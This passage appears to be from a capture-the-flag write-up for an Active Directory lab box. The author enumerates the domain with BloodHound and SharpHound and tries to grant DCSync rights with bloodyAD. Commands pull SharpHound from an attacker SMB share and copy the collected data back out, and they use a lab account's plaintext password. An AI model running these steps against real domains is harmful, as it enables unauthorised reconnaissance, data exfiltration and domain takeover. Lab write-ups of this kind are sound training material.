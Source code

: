 ```powershell

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

We're not a member of DnsAdmins, so no quick and easy DA. Before enumerating with winPEAS, lets start by looking at the domain using BloodHound / SharpHound.

```bash
➜  BloodHound git:(master) ✗ impacket-smbserver share . -smb2support
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

```powershell
*Evil-WinRM* PS C:\Users\support\Documents> cd C:\Windows\Tasks
*Evil-WinRM* PS C:\Windows\Tasks> copy \\10.10.14.66\share\SharpHound.ps1 .
*Evil-WinRM* PS C:\Windows\Tasks> import-module C:\Windows\Tasks\SharpHound.ps1
*Evil-WinRM* PS C:\Windows\Tasks> Invoke-BloodHound -CollectionMethod All -Domain support.htb -LDAPUser support -LDAPPass Ironside47pleasure40Watchful
*Evil-WinRM* PS C:\Windows\Tasks> copy C:\Windows\Tasks\20220801232808_BloodHound.zip \\10.10.14.66\share\bloodout-out.zip
```


### Step 2
Analyze the BloodHound output and we quickly see that our user (`support`) has **GenericAll** to computer `dc.support.htb`.
![[Pasted image 20220802094918.png]]

To better understand what all different ACL's mean, we can look on this graph.
![[Pasted image 20220802104519.png]]

From the graph we see that **GenericAll** means we got full rights over the computer, DC. Looking at the bottom row, and the box named Computer we have two main options.
1. RBCD - Resource Based Constrained Delegation
2. Grant DCSync rights

The easiest would be to grant DCSync rights and dump the domain hashes, so lets try that first.
```bash
➜  bloodyAD git:(main) ./bloodyAD.py --host 10.129.20.215 -d support.htb -u support -p Ironside47pleasure40Watchful setDCSync support        
[*] support SID is: S-1-5-21-1677581083-3380853377-188903654-1105
[... snip ...]
ldap3.core.exceptions.LDAPInsufficientAccessRightsResult: LDAPInsufficientAccessRightsResult - 50 - insufficientAccessRights - None - 00000005: SecErr: DSID-03152DE9, problem 4003 (INSUFF_ACCESS_RIGHTS), data 0
 - modifyResponse - None
```
